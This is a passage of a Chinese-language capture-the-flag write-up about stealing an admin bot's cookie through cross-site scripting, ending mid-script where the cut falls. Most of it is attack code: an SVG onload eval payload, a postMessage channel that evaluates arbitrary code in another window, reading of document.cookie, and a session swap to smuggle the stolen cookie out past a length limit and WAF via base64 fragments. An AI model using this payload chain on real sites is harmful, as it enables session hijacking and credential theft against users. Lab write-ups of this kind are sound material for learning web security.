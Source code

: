 接下来解决传回数据的问题。我一开始想了很多办法修改自己的cookie，想着既然跨域不能在headers里加cookie，那同源总可以了吧？结果不行，浏览器根本不鸟我（最重要的是这个在本地环境是无法直接测出来的，我不可能有两套合法的cookie除非作弊）。后来突发奇想，如果我在web上重新用我自己token登录，会怎么样？终于成功换成了我自己的session。注意重新登录后cookie被清理了，所以在此之前我们要先把flag拿到父窗口，然后手动输入进子窗口的表单里，这里会遇到评论区25字符+WAF限制（有%哦）。最后我的方案是直接base64编码，分段传进去。

```html
<title>testXSS</title>
<h1 id="h1">test</h1>

<script>
const sleep = ms => new Promise(r => setTimeout(r, ms));

post_cookie = () => {
    document.querySelector("textarea.form-control").value = '"+document["cookie"]+"';document.querySelector("form").submit()
}
var my_token = "<mytoken>"

// var HOST = "202.38.93.111:10051"
var HOST = "web"
var xssshell = "<svg/onload=eval(decodeURI(location.hash.substring(1)));></svg>"

var steal_cookie = '';
var steal_cookie_b64 = '';

var otherwin = window.open(`http://${HOST}/result#w=window.opener;window.addEventListener("message",(e)=>{console.log(e.data);eval("async ()=>{"+e.data+"}")().then(m=>w.postMessage(m, "*"))});w.postMessage("OK:web","*");`,
xssshell)
sleep(100)

window.addEventListener("message", (e)=>{
    console.log(e.data);

    if(e.data.substr(0,3) == "OK:"){
        // GETSHELL! which one?
        otherwin.postMessage("return 'COOKIE:'+document.cookie", "*");
        
    } else {
        var event = new CustomEvent("xss_res", {detail: e.data})
        window.dispatchEvent(event)
    }
})

window.addEventListener("xss_res", (e)=>{
    if (e.detail == 'NULL'){
        return
    }
    if (e.detail.substr(0, 7) == 'COOKIE:') {
        steal_cookie = e.detail.substr(7);
        steal_cookie_b64 = btoa(steal_cookie);
        console.log(steal_cookie);
        console.log(steal_cookie_b64);
        // try login as me
    otherwin.postMessage(`return fetch("/?token=${my_token}", 
{
    method: "GET"
}).then((resp)=>{
    console.log(resp);
    return "CHANGE:" + resp.status.toString();
})`, "*")

         
    } else if (e.detail.substr(0,7) == 'CHANGE:'){
    // POST next msg
```